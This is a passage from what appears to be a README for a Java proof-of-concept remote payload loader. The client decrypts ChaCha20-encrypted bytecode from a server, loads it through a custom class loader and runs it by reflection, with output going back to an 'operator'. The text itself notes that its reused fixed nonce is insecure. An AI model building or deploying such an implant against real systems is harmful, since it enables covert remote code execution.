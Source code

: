 ```java

    System.out.println(String.format("Received %d bytes from client: %s", byteArrayStream.size(),
            new String(cipher.decrypt(byteArrayStream.toByteArray()))));
}
```




## Encryption

Data in-transit is encrypted using ChaCha20 ([JEP-329](https://openjdk.org/jeps/329)). It randomly generates a 256-bit key or uses a specified key via argument, in base64 encoded format. Current ChaCha configuration lacks good practices and is likely *insecure* due to reusing a fixed nonce everytime. Either way it works for testing and proof-of-concept purposes.



```java
public static SecretKey getKey()  {
    KeyGenerator keyGen = KeyGenerator.getInstance("ChaCha20");
    keyGen.init(256, SecureRandom.getInstanceStrong());
    SecretKey generatedKey = keyGen.generateKey();
    System.out.println("Generated new key: " +
            Base64.getEncoder().encodeToString(generatedKey.getEncoded()));
    [...]
    return generatedKey;
}


public byte[] encrypt(byte[] plainText)  {
    Cipher cipher = Cipher.getInstance(CIPHER);
    ChaCha20ParameterSpec param = new ChaCha20ParameterSpec(nonce, counter);
    cipher.init(Cipher.ENCRYPT_MODE, key, param);
    byte[] encryptedText = cipher.doFinal(plainText);
    [...]
    return encryptedText;
}
```


## Class Loading

Finally, when the client receives the payload in bytecode format from the server, it invokes the desired method using [Java Reflection API](https://docs.oracle.com/en/java/javase/11/docs/api/java.base/java/lang/reflect/Method.html).

At this time the class loader expects a class with a static method that takes no arguments and returns `String` that could be used to return execution output to the operator. It should be replaced with a better alternative to handle different kinds of outputs.


```java
public String load()  {
    String output = "";
    Class newClass = defineClass(className, data, 0, data.length);
    Method method = null;

    try {
        method = newClass.getMethod(methodName, null);
        Object o = method.invoke(null, null);
        output = (String) o;
    } catch (NoSuchMethodException | IllegalAccessException | InvocationTargetException e) {
        System.err.println("Error invoking class method");
        throw new RuntimeException(e);
    }
    
    return output;
```